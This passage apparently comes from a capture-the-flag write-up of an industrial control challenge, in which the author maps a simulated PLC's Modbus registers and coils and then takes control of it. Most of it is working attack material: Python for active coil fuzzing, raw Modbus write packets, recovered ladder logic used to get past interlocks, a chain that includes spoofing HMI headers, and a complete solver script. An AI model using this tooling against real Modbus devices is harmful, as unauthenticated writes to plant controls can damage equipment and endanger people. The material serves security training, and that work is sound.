  H00001   765 0x02fd
  H00002     0 0x0000
  H00003     3 0x0003
  H00004     0 0x0000
  H00005     9 0x0009
  H00006   201 0x00c9
  H00007     6 0x0006
  H00008   120 0x0078
  H00009     0 0x0000
  H00010     0 0x0000
  H00011     0 0x0000
```

```text
coils 0..15
  C00000 1
  C00001 0
  C00002 1
  C00003 0
  C00004 0
  C00005 1
  C00006 0
  C00007 0
```

```text
discrete inputs 0..15
  I00000 1
  I00001 0
  I00002 1
  I00003 0
  I00004 0
  I00005 1
  I00006 1
  I00007 0
  I00008 0
  I00009 0
  I00010 1
  I00011 0
```

High holding registers are zero.

```text
holding registers 100..115
  0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000 0000
```

At this point I do not have a trusted register map. These are raw Modbus addresses, and the first labels are only hypotheses made by correlating live values with the unauthenticated HMI. `H00000=953` looks like `95.3%` because the HMI level is about 95%, `H00001=765` looks like `76.5 kPa`, `H00003=0x0003` matches the two visible alarms, and `H00005=0x0009` has two bits set while the HMI shows two energized outputs. `H00008=120` is a candidate for the `12.0%` AUTO raw level because it matches the HMI status value exactly.

The coils and discrete inputs are also not fully mapped yet. The only safe distinction from Modbus itself is that coils are writable bits and discrete inputs are read-only state bits. `C00002` and `C00005` are true at boot, and `I00002` and `I00005` are also true, which lines up with FV101 and P401 being visibly active, but Step 7 is where I verify the command meanings by changing one coil at a time.

The zeroed high holding-register range is also important because the token is not sitting in an obvious register range. The Modbus side appears to expose process state and controls. The final names for the registers and interlocks come later from active fuzzing and the recovered ladder logic, then get summarized in Step 9.

## Step 7 - Active Coil Fuzzing

After passive reads, I actively toggled coils while watching the HMI status, discrete inputs, and holding registers. This is a lab challenge. I would not do this against a real plant.

The fuzzing method is simple. Write a controlled coil pattern, wait one PLC scan, then compare the resulting mode, discrete inputs, output bitmap, and HMI state against the previous baseline. A coil is considered mapped only when a repeatable output or interlock change appears after that write. This avoids guessing names from the HMI text alone.

With the Step 5 helper loaded, the coil-walk script uses Modbus function `15` to write all eight command coils as one controlled pattern, then reads back the resulting process state.

```python
import json
import time
from urllib.request import urlopen

def tx_hex(transaction, values):
    return mbap_frame(transaction, write_multiple_coils_pdu(0, values)).hex()

def hmi_status():
    with urlopen(f"http://{HOST}:18080/status.json", timeout=3) as response:
        return json.loads(response.read().decode())

def print_status(prefix):
    status = hmi_status()
    print(
        f"{prefix}: mode={status['m']} level={status['p'][0]:.1f}% "
        f"pressure={status['p'][1]:.1f}kPa outputs={status['o']} interlocks={status['s']} scans={status['t']}"
    )

with ModbusClient(HOST, MODBUS_PORT) as client:
    print("active coil walk")
    client.write_coils(0, [False] * 8)
    time.sleep(1.2)
    print_status("  baseline all coils false")

    for index in range(8):
        values = [False] * 8
        values[index] = True
        client.write_coils(0, values)
        time.sleep(1.2)
        regs = client.read_holding(0, 12)
        discrete = client.read_bits(2, 0, 12)
        print(f"  coil C{index:05d}")
        print(f"    tx={tx_hex(index + 1, values)}")
        print(f"    discrete={[int(x) for x in discrete]}")
        print(f"    mode={regs[2]} alarms=0x{regs[3]:04x} outputs=0x{regs[5]:04x}")

    print("manual-armed output walk")
    for index in range(2, 6):
        values = [False, True, False, False, False, False, False, False]
        values[index] = True
        client.write_coils(0, values)
        time.sleep(1.2)
        regs = client.read_holding(0, 12)
        discrete = client.read_bits(2, 0, 12)
        print(f"  manual + coil C{index:05d}")
        print(f"    tx={tx_hex(index + 20, values)}")
        print(f"    discrete={[int(x) for x in discrete]}")
        print(f"    mode={regs[2]} alarms=0x{regs[3]:04x} outputs=0x{regs[5]:04x}")
```

The first one-bit-at-a-time fuzz showed a dependency.

```text
baseline all coils false: mode=IDLE outputs=[False, False, False, False, False]

coil C00000
  tx=000100000008010f000000080101
  discrete=[1, 0, 1, 0, 0, 1, 1, 0, 0, 0, 1, 0]
  mode=0 alarms=0x0003 outputs=0x0009

coil C00001
  tx=000200000008010f000000080102
  discrete=[0, 1, 0, 0, 0, 0, 1, 0, 0, 0, 1, 0]
  mode=1 alarms=0x0003 outputs=0x0000
```

This proves that `C00000` is not just another output. When `AUTO_ENABLE` is set, the PLC enters AUTO and re-energizes FV101/P401 through its automatic logic. When only `MANUAL_ARM` is set, the PLC enters MANUAL but all physical outputs stay closed/off. That is why every useful manual command later keeps `C00000=0` and `C00001=1`.

Then I repeated the output walk with `MANUAL_ARM` held true.

```text
manual + coil C00002
  tx=001600000008010f000000080106
  discrete=[0, 1, 1, 0, 0, 0, 1, 0, 0, 0, 1, 1]
  outputs=0x0001

manual + coil C00003
  tx=001700000008010f00000008010a
  discrete=[0, 1, 0, 1, 0, 0, 1, 0, 0, 0, 1, 1]
  outputs=0x0002

manual + coil C00004
  tx=001800000008010f000000080112
  discrete=[0, 1, 0, 0, 1, 0, 1, 0, 0, 0, 1, 1]
  outputs=0x0004

manual + coil C00005
  tx=001900000008010f000000080122
  discrete=[0, 1, 0, 0, 0, 1, 1, 0, 0, 0, 1, 1]
  outputs=0x0008
```

The manual walk maps the actuator commands. With `MANUAL_ARM` held, `C00002` sets FV101, `C00003` sets DV201, `C00004` sets PV301, and `C00005` sets P401. The output bitmap confirms the same ordering. `0x0001` for FV101, `0x0002` for DV201, `0x0004` for PV301, and `0x0008` for P401. The reset and seal coils are not safe to reason about from fuzzing alone because they depend on permissive ladder logic and can set fault latches if used at the wrong time.

This gives the control map needed to operate the process.

| Coil | Meaning |
|---:|---|
| `C00000` | `AUTO_ENABLE` |
| `C00001` | `MANUAL_ARM` |
| `C00002` | `FV101_INLET_OPEN_CMD` |
| `C00003` | `DV201_DRAIN_OPEN_CMD` |
| `C00004` | `PV301_VENT_OPEN_CMD` |
| `C00005` | `P401_RECIRC_PUMP_CMD` |
| `C00006` | `RESET_PRESSURE_LATCH_PULSE` |
| `C00007` | `ASH_VAULT_SEAL_CMD` |

## Step 8 - Recovered Ladder Logic

The recovered ladder is the first place that explains the real sequence. The HMI shows process values and a few interlock lamps, but it does not explain why a reset pulse succeeds, why a seal command can create a bad-sequence latch, or why the final alarm waits for ten scans.

Before interpreting the export, I checked a ladder-logic reference for the basic contact/coil model and a PLC scan-cycle reference for why a ten-scan proof counter matters. That matters here because the recovered engineering export describes command coils such as `C00001 MANUAL_ARM`, XIO permissive contacts such as `--|/|-- FV101_INLET_LIMIT_OPEN`, and `CTU C5:0 PRE 10` for the final alarm proof.

https://control.com/textbook/programmable-logic-controllers/ladder-diagram-ld-programming/


Source page: https://yourelectricalguide.com/2023/03/plc-program-scan-cycle.html


Source page: https://commons.wikimedia.org/wiki/File:Ladder_diagram.png

The export is from `RLL_ASH_VAULT_MAIN` on the `FAST_1S` task. It uses normal ladder conventions.

```text
--| |--  XIC, true contact
--|/|--  XIO, false contact
OTE      normal output bit
OTL/OTU  latch and unlatch
LIM      inclusive analog range compare
CTU      count-up instruction
BST/NXB/BND parallel branch markers
```

The command coils referenced by the routine are.

| Coil | Symbol |
| --- | --- |
| `C00000` | `AUTO_ENABLE` |
| `C00001` | `MANUAL_ARM` |
| `C00002` | `FV101_INLET_OPEN_CMD` |
| `C00003` | `DV201_DRAIN_OPEN_CMD` |
| `C00004` | `PV301_VENT_OPEN_CMD` |
| `C00005` | `P401_RECIRC_PUMP_CMD` |
| `C00006` | `RESET_PRESSURE_LATCH_PULSE` |
| `C00007` | `ASH_VAULT_SEAL_CMD` |

Mode arbitration explains a small trap in the coil fuzzing. Manual mode is only active when AUTO is off and manual arm is on.

```text
RUNG 000 - MODE ARBITRATION
  --| |-- C00000 AUTO_ENABLE ------------------------------------(OTE) B3:0/0 AUTO_ACTIVE
  --|/|-- C00000 AUTO_ENABLE --| |-- C00001 MANUAL_ARM ----------(OTE) B3:0/1 MANUAL_ACTIVE
```

The AUTO fault is also visible in ladder. The real vessel level can be high, but the AUTO raw channel is low, so the AUTO branch keeps energizing the feed valve.

```text
RUNG 004 - LT204 AUTO CHANNEL PLAUSIBILITY
  LES LT204_AUTO_RAW_PCT 18.0 -----------------------------------(OTE) B3:1/0 LT204_AUTO_RAW_LOW
  GEQ LT204_LEVEL_PCT 84.0 --| |-- B3:1/0 LT204_AUTO_RAW_LOW ----(OTE) B3:1/1 LT204_SPLIT_RANGE_FAULT

RUNG 006 - AUTO DEMANDS
  --| |-- B3:0/0 AUTO_ACTIVE --| |-- B3:1/0 LT204_AUTO_RAW_LOW --(OTE) B3:4/0 FV101_AUTO_DEMAND
  --| |-- B3:0/0 AUTO_ACTIVE ------------------------------------(OTE) B3:4/3 P401_AUTO_DEMAND
```

The manual demand rungs match the active coil fuzzing. These rungs are why `C00002` through `C00005` do nothing useful until `C00000=0` and `C00001=1`.

```text
RUNG 008 - MANUAL DEMANDS
  --| |-- B3:0/1 MANUAL_ACTIVE --| |-- C00002 FV101_INLET_OPEN_CMD ----(OTE) B3:4/1 FV101_MANUAL_DEMAND
  --| |-- B3:0/1 MANUAL_ACTIVE --| |-- C00003 DV201_DRAIN_OPEN_CMD ----(OTE) B3:4/4 DV201_MANUAL_DEMAND
  --| |-- B3:0/1 MANUAL_ACTIVE --| |-- C00004 PV301_VENT_OPEN_CMD -----(OTE) B3:4/5 PV301_MANUAL_DEMAND
  --| |-- B3:0/1 MANUAL_ACTIVE --| |-- C00005 P401_RECIRC_PUMP_CMD ----(OTE) B3:4/6 P401_MANUAL_DEMAND

RUNG 010 - FIELD OUTPUT IMAGE
  BST --| |-- B3:4/0 FV101_AUTO_DEMAND
  NXB --| |-- B3:4/1 FV101_MANUAL_DEMAND
  BND ------------------------------------------------------------(OTE) FV101_INLET_LIMIT_OPEN
  --| |-- B3:4/4 DV201_MANUAL_DEMAND ---------------------------(OTE) DV201_DRAIN_LIMIT_OPEN
  --| |-- B3:4/5 PV301_MANUAL_DEMAND ---------------------------(OTE) PV301_VENT_LIMIT_OPEN
  BST --| |-- B3:4/3 P401_AUTO_DEMAND
  NXB --| |-- B3:4/6 P401_MANUAL_DEMAND
  BND ------------------------------------------------------------(OTE) P401_RUNNING
```

The latch section explains two failure modes. Pressure above 72.0 kPa latches `PRESSURE_HI_LATCH`. Asserting the seal command while that latch is active, or while not in manual, sets `BAD_SEQUENCE_LATCH`.

```text
RUNG 020 - PROCESS FAULT LATCHES
  GEQ PT301_PRESSURE_KPA 72.0 -----------------------------------(OTL) B3:2/0 PRESSURE_HI_LATCH
  --| |-- C00007 ASH_VAULT_SEAL_CMD --| |-- B3:2/0 PRESSURE_HI_LATCH --(OTL) B3:2/1 BAD_SEQUENCE_LATCH
  --| |-- C00007 ASH_VAULT_SEAL_CMD --|/|-- B3:0/1 MANUAL_ACTIVE ------(OTL) B3:2/1 BAD_SEQUENCE_LATCH
```

The reset permissive is the crucial recovery rung. It tells us the exact physical state required before pulsing `C00006`. Manual active, all three valves closed, recirc pump running, pressure between 22.0 and 45.0 kPa, and level between 35.0% and 65.0%.

```text
RUNG 030 - RESET PERMISSIVE BUILD
  --| |-- B3:0/1 MANUAL_ACTIVE
  --|/|-- FV101_INLET_LIMIT_OPEN
  --|/|-- DV201_DRAIN_LIMIT_OPEN
  --|/|-- PV301_VENT_LIMIT_OPEN
  --| |-- P401_RUNNING
  LIM 22.0 PT301_PRESSURE_KPA 45.0
  LIM 35.0 LT204_LEVEL_PCT 65.0 -------------------------------(OTE) B3:3/0 RESET_PERMISSIVE

RUNG 044 - PRESSURE LATCH RESET
  --| |-- C00006 RESET_PRESSURE_LATCH_PULSE --| |-- B3:3/0 RESET_PERMISSIVE --[ONS] OSR:44
                                                               --(OTU) B3:2/0 PRESSURE_HI_LATCH
                                                               --(OTU) B3:2/1 BAD_SEQUENCE_LATCH
                                                               --(MOV) 0 LAST_TRIP_CODE
  --| |-- C00006 RESET_PRESSURE_LATCH_PULSE --|/|-- B3:3/0 RESET_PERMISSIVE --(OTL) B3:2/1 BAD_SEQUENCE_LATCH
                                                                                --(MOV) 310 LAST_TRIP_CODE
```

The final rung explains why just pressing seal is not enough. The process must be held in a tighter seal window for ten PLC scans. The counter resets immediately if any contact drops out.

```text
RUNG 052 - ASH-VAULT SEAL WINDOW
  --| |-- B3:0/1 MANUAL_ACTIVE
  --|/|-- B3:2/0 PRESSURE_HI_LATCH
  --|/|-- B3:2/1 BAD_SEQUENCE_LATCH
  --| |-- C00007 ASH_VAULT_SEAL_CMD
  --|/|-- FV101_INLET_LIMIT_OPEN
  --|/|-- DV201_DRAIN_LIMIT_OPEN
  --|/|-- PV301_VENT_LIMIT_OPEN
  --| |-- P401_RUNNING
  LIM 28.0 PT301_PRESSURE_KPA 36.0
  LIM 38.0 LT204_LEVEL_PCT 54.0 -------------------------------(OTE) B3:3/1 SEAL_STABLE_WINDOW

RUNG 054 - SEAL PROOF TIMER
  --| |-- B3:3/1 SEAL_STABLE_WINDOW ----------------------------(CTU) C5:0 PRE 10 ACC SEAL_STABLE_SCAN_COUNT
  --|/|-- B3:3/1 SEAL_STABLE_WINDOW ----------------------------(RES) C5:0

RUNG 055 - AVX900 ALARM LATCH
  --| |-- C5:0/DN -----------------------------------------------(OTL) AVX900_SEAL_TOKEN_ALARM
```

This is why the ladder extract is mandatory. Fuzzing can identify coils, and the HMI can show process values, but only the ladder gives the two different numeric windows, the bad-sequence behavior, and the ten-scan proof requirement.

## Step 9 - Built Register and Signal Map

Combining passive reads, active fuzzing, HMI state changes, and the ladder export gives this map.

Nothing in this table came from a public register-map endpoint. The holding-register names were assigned by matching raw values to HMI telemetry, watching which fields changed after controlled writes, and then confirming the control meaning against the ladder export. The discrete inputs were mapped by comparing command coils with resulting PLC state. The alarm bits were mapped by watching `H00003` while the HMI alarm table changed.

### Holding registers

| Register | Meaning | Notes |
|---:|---|---|
| `H00000` | `LT204_LEVEL_X10` | divide by 10 for percent |
| `H00001` | `PT301_PRESSURE_X10` | divide by 10 for kPa |
| `H00002` | `MODE_CODE` | `0=AUTO`, `1=MANUAL`, `2=IDLE` |
| `H00003` | `ALARM_BITS` | process alarm bitmap |
| `H00004` | `SEAL_STABLE_SCANS` | must reach 10 |
| `H00005` | `OUTPUT_STATUS_BITS` | bitfield for inlet, drain, vent, pump, seal |
| `H00006` | `LAST_TRIP_CODE` | `201`, `310`, `401`, or `0` |
| `H00007` | `PLC_SCAN_COUNTER` | increments each scan |
| `H00008` | `LT204_AUTO_RAW_X10` | stuck at `120`, meaning 12.0% |
| `H00009` | `SEAL_TOKEN_ALARM_ACTIVE` | Boolean alarm state only |
| `H00010` | `RESET_PERMISSIVE` | Boolean |
| `H00011` | `SEAL_WINDOW_PERMISSIVE` | Boolean |

### Discrete inputs

| Discrete | Meaning |
|---:|---|
| `I00000` | `AUTO_ACTIVE` |
| `I00001` | `MANUAL_ACTIVE` |
| `I00002` | `FV101_INLET_LIMIT_OPEN` |
| `I00003` | `DV201_DRAIN_LIMIT_OPEN` |
| `I00004` | `PV301_VENT_LIMIT_OPEN` |
| `I00005` | `P401_RUNNING` |
| `I00006` | `PRESSURE_HI_LATCH` |
| `I00007` | `RESET_PERMISSIVE` |
| `I00008` | `SEAL_STABLE_WINDOW` |
| `I00009` | `SEAL_TOKEN_ALARM_ACTIVE` |
| `I00010` | `LT204_STUCK_LOW` |
| `I00011` | `BAD_SEQUENCE_LATCH` |

### Alarm bits

| Bit | Meaning |
|---:|---|
| `0` | pressure-high latch |
| `1` | vessel level high |
| `2` | vessel level low |
| `3` | bad sequence latch |
| `4` | seal command waiting for stable window |
| `6` | AVX900 seal alarm active |

## Step 10 - Process Control Plan

The physical process constraints are.

- AUTO is harmful because it keeps FV101 open.
- Manual mode requires `AUTO_ENABLE=0` and `MANUAL_ARM=1`.
- Reset requires closed FV101, DV201, PV301, pump running, pressure between 22 and 45 kPa, and level between 35 and 65%.
- Final seal requires the pressure latch cleared, no bad sequence latch, all valves closed, pump running, seal command on, pressure between 28 and 36 kPa, level between 38 and 54%, held for 10 PLC scans.

The process-control plan follows directly from those constraints. I need to stop AUTO first because AUTO keeps feeding through FV101. I need to drain and vent because the starting vessel is above the reset level window and pressure is already latched high. I need P401 running with all valves closed because the reset permissive rung explicitly requires that state and because the pump settles pressure near the center of the later seal window. I need to pulse reset only after `RESET_PERMISSIVE=1` because a rejected reset pulse sets `BAD_SEQUENCE_LATCH`. I need to assert seal only after the pressure latch is clear because sealing against an active pressure latch also sets `BAD_SEQUENCE_LATCH`.

So the chain is.

1. Get engineering access by spoofing the HMI/workstation headers.
2. Read ladder and operator log.
3. Use Modbus to switch from broken AUTO to MANUAL.
4. Drain and vent until the process is no longer high level/high pressure.
5. If level falls too low, refill using FV101 in manual mode.
6. Close all valves and run P401 to settle pressure near 32 kPa.
7. Wait for `RESET_PERMISSIVE`.
8. Pulse `RESET_PRESSURE_LATCH_PULSE`.
9. Assert `ASH_VAULT_SEAL_CMD` with pump running and valves closed.
10. Hold the stable window for 10 scans.
11. Read the AVX900 alarm from the HMI alarm table.

## Step 11 - Modbus TX Packets

All process commands are Modbus function `15` writes to coils `0..7`.

For the TX bytes, I used the Modbus/TCP implementation guide because Modbus/TCP wraps the Modbus PDU in a 7-byte MBAP header. The packet diagrams below are what I used to sanity-check the transaction id, protocol id, length, unit id, function code, start address, quantity, byte count, and packed coil payload.

https://www.modbus.org/docs/Modbus_Messaging_Implementation_Guide_V1_0b.pdf


Source page: https://www.se.com/us/en/faqs/FA179542/


Source page: https://docs.chipkin.com/articles/modbus-tcp-mbap-header-and-message-format-reference/

The command array is.

```text
[AUTO_ENABLE, MANUAL_ARM, FV101_INLET, DV201_DRAIN, PV301_VENT, P401_PUMP, RESET_PULSE, SEAL_CMD]
```

The generator used for the byte strings is.

```python
import struct

UNIT_ID = 1

def mbap_frame(transaction, pdu):
    return struct.pack(">HHHB", transaction, 0, len(pdu) + 1, UNIT_ID) + pdu

def write_multiple_coils_pdu(address, values):
    payload = bytearray((len(values) + 7) // 8)
    for index, value in enumerate(values):
        if value:
            payload[index // 8] |= 1 << (index % 8)
    return b"\x0f" + struct.pack(">HHB", address, len(values), len(payload)) + bytes(payload)

def tx_hex(transaction, values):
    return mbap_frame(transaction, write_multiple_coils_pdu(0, values)).hex()

examples = {
    "manual_drain": [False, True, False, True, True, False, False, False],
    "manual_fill": [False, True, True, False, False, False, False, False],
    "pressure_trim": [False, True, False, False, False, True, False, False],
    "reset_pulse": [False, True, False, False, False, True, True, False],
    "seal_hold": [False, True, False, False, False, True, False, True],
}

for transaction, (name, values) in enumerate(examples.items(), start=100):
    print(f"{name:14s} {values} -> {tx_hex(transaction, values)}")
```

Generated TX examples.

```text
manual_drain   [False, True, False, True, True, False, False, False] -> 006400000008010f00000008011a
manual_fill    [False, True, True, False, False, False, False, False] -> 006500000008010f000000080106
pressure_trim  [False, True, False, False, False, True, False, False] -> 006600000008010f000000080122
reset_pulse    [False, True, False, False, False, True, True, False] -> 006700000008010f000000080162
seal_hold      [False, True, False, False, False, True, False, True] -> 006800000008010f0000000801a2
```

Example, `manual_drain` decodes as follows.

```text
00 64  transaction id
00 00  protocol id
00 08  length
01     unit id
0f     function code: write multiple coils
00 00  start address
00 08  quantity: 8 coils
01     byte count
1a     coil bit payload: C1, C3, C4 set
```

## Step 12 - Manual Drain and Vent

I first cut AUTO and entered manual mode with drain and vent open.

The signal snapshots in the remaining process-control steps are from one successful run. Coil states and discrete interlock states should match exactly. Analog values and scan counters can differ slightly depending on when the sample is taken.

```python
command(client, auto=False, manual_arm=True, inlet=False, drain=True, vent=True, pump=False)
```

Each bit in that command has a reason.

- `auto=False` prevents the broken AUTO branch from reopening FV101.
- `manual_arm=True` makes the manual output rungs active.
- `inlet=False` keeps new brine from entering the already high vessel.
- `drain=True` lowers LT204 into the reset and seal level windows.
- `vent=True` bleeds pressure while draining so PT301 falls away from the high latch condition.
- `pump=False` avoids pushing pressure back toward the recirc setpoint while the vessel is still too high.

Screenshot.



Signals.

```json
{
  "coils_0_7": [0, 1, 0, 1, 1, 0, 0, 0],
  "discrete_0_11": [0, 1, 0, 1, 1, 0, 1, 0, 0, 0, 1, 0],
  "holding_0_11": [898, 163, 1, 1, 0, 6, 201, 11, 120, 0, 0, 0]
}
```

This proves.

- Mode is MANUAL.
- DV201 drain is open.
- PV301 vent is open.
- Pressure is dropping.
- The pressure latch is still active, which is expected before reset.

The latch staying active is not a failure. `PRESSURE_HI_LATCH` is retentive in the ladder, so dropping pressure below 72 kPa does not clear it by itself. It must be explicitly reset later through the permissive rung.

## Step 13 - Reset-Ready Window

After draining, I closed all valves and ran P401 until the reset permissive became true.

```python
command(client, auto=False, manual_arm=True, inlet=False, drain=False, vent=False, pump=True)
```

This changes from "remove inventory and pressure" to "stabilize for reset." Closing FV101/DV201/PV301 satisfies the XIO valve contacts in the reset permissive rung. Running P401 satisfies the pump-running contact and moves pressure toward roughly 32 kPa, which sits inside both the broad reset pressure window and the narrower seal pressure window.

Screenshot.



Signals.

```json
{
  "coils_0_7": [0, 1, 0, 0, 0, 1, 0, 0],
  "discrete_0_11": [0, 1, 0, 0, 0, 1, 1, 1, 0, 0, 1, 0],
  "holding_0_11": [500, 300, 1, 1, 0, 8, 201, 49, 120, 0, 1, 0]
}
```

The important values.

- `LT204 = 50.0%`
- `PT301 = 30.0 kPa`
- `MANUAL_ACTIVE = 1`
- `P401_RUNNING = 1`
- valves closed
- `RESET_PERMISSIVE = 1`
- `PRESSURE_HI_LATCH = 1`

This is exactly the reset rung condition, so now it is safe to pulse `C00006`.

The reset pulse is deliberately a pulse, not a held command. The ladder uses a one-shot on `RESET_PRESSURE_LATCH_PULSE`, and the simulator clears that coil after handling it. Holding the bit longer does not create a better reset. It only risks confusing the sequence if the physical state changes while the bit is still asserted.

Reset pulse.

```python
command(client, pump=True, reset=True)
time.sleep(1.5)
command(client, pump=True)
```

Latch-cleared signals.

```json
{
  "coils_0_7": [0, 1, 0, 0, 0, 1, 0, 0],
  "discrete_0_11": [0, 1, 0, 0, 0, 1, 0, 1, 0, 0, 1, 0],
  "holding_0_11": [500, 310, 1, 0, 0, 8, 0, 52, 120, 0, 1, 0]
}
```

The latch is now clear and `LAST_TRIP_CODE` is `0`.

Those two fields are the proof that the reset worked. `PRESSURE_HI_LATCH` changed from `1` to `0`, the alarm bitmap dropped from `0x0001` to `0x0000`, and `LAST_TRIP_CODE` changed from `201` to `0`. If the reset had been attempted before `RESET_PERMISSIVE=1`, the ladder would have set `BAD_SEQUENCE_LATCH` and moved `LAST_TRIP_CODE` to `310` instead.

## Step 14 - Seal Stable Window

With the latch clear, I asserted the seal command while keeping pump on and all valves closed.

```python
command(client, auto=False, manual_arm=True, inlet=False, drain=False, vent=False, pump=True, seal=True)
```

This command is the exact final rung state. Manual remains active, all valves remain closed, P401 remains running, and `ASH_VAULT_SEAL_CMD` is asserted. The latch and bad-sequence contacts must already be false before this point. Otherwise the seal window will not go true.

Screenshot.



Signals.

```json
{
  "coils_0_7": [0, 1, 0, 0, 0, 1, 0, 1],
  "discrete_0_11": [0, 1, 0, 0, 0, 1, 0, 1, 1, 0, 1, 0],
  "holding_0_11": [500, 317, 1, 0, 2, 24, 0, 54, 120, 0, 1, 1]
}
```

Important values.

- `SEAL_STABLE_WINDOW = 1`
- `PRESSURE_HI_LATCH = 0`
- `BAD_SEQUENCE_LATCH = 0`
- `SEAL_STABLE_SCANS = 2`
- `OUTPUT_STATUS_BITS = 0x0018`, meaning pump and seal command are on

Now the only remaining requirement is time. Hold this state for 10 scans.

The counter is fragile on purpose. If pressure drifts outside 28.0..36.0 kPa, level drifts outside 38.0..54.0%, any valve opens, P401 stops, the seal command drops, or a latch comes back, `SEAL_STABLE_WINDOW` becomes false and the proof counter resets. That is why the final command keeps the plant quiet instead of continuing to drain, vent, or refill.

## Step 15 - Final Alarm and Flag

After the stable count reaches 10, the HMI alarm table receives the final AVX900 alarm.



Final signals.

```json
{
  "coils_0_7": [0, 1, 0, 0, 0, 1, 0, 1],
  "discrete_0_11": [0, 1, 0, 0, 0, 1, 0, 1, 1, 1, 1, 0],
  "holding_0_11": [500, 320, 1, 64, 10, 24, 0, 80, 120, 1, 1, 1]
}
```

The final signal state explains why the flag is now available. `H00004=10` proves the timer/counter reached its preset, `H00003=64` means alarm bit 6 is set, `I00009=1` and `H00009=1` mirror the seal-token alarm state, and `H00011=1` shows the seal window is still true. The token itself is not in those registers. The PLC state only causes the HMI alarm table to render the final AVX900 message.

Alarm endpoint.

```bash
curl -s http://127.0.0.1:18080/alarms
```

Raw request.

```http
GET /alarms HTTP/1.1
Host: 127.0.0.1:18080
Connection: close

```

Raw response.

```http
HTTP/1.0 200 OK
Server: BaseHTTP/0.6 Python/3.12.3
Content-Type: text/plain; charset=utf-8
Content-Length: redacted

AVX900 ASH-VAULT SEAL MADE - TOKEN HTB{REDACTED}
```

## Final Exploit Logic

This is the condensed logic used by the solver. In a player solve I would keep host and ports as globals and run the same sequence.

```python
def command(
    client,
    *,
    auto=False,
    manual_arm=True,
    inlet=False,
    drain=False,
    vent=False,
    pump=False,
    reset=False,
    seal=False,
):
    client.write_coils(0, [auto, manual_arm, inlet, drain, vent, pump, reset, seal])


def bring_level_into_recovery_range(client):
    state = status(client)
    if state["level"] < 42.0:
        while status(client)["level"] < 46.0:
            command(client, inlet=True)
            time.sleep(1)
    elif state["level"] > 50.0:
        while status(client)["level"] > 50.0:
            state = status(client)
            command(client, drain=True, vent=state["pressure"] > 34.0)
            time.sleep(1)
    command(client)


def solve(client):
    # Disable the broken AUTO branch and enter manual with every output closed.
    command(client)

    # Move LT204 into the level band accepted by both reset and seal logic.
    bring_level_into_recovery_range(client)

    # P401 with valves closed settles PT301 near 32 kPa; vent if pressure overshoots.
    while True:
        state = status(client)
        if 30.0 <= state["pressure"] <= 34.0:
            break
        command(client, vent=state["pressure"] > 34.0, pump=state["pressure"] <= 34.0)
        time.sleep(1)

    # Wait for the PLC-computed reset permissive instead of guessing the timing.
    command(client, pump=True)
    while not status(client)["reset_permissive"]:
        time.sleep(1)

    # Pulse the one-shot reset rung, then return to the stable pump-only state.
    command(client, pump=True, reset=True)
    time.sleep(1.5)
    command(client, pump=True)

    # Hold seal with P401 running and all valves closed until the 10-scan proof completes.
    command(client, pump=True, seal=True)
    while not status(client)["seal_alarm_active"]:
        time.sleep(1)
```
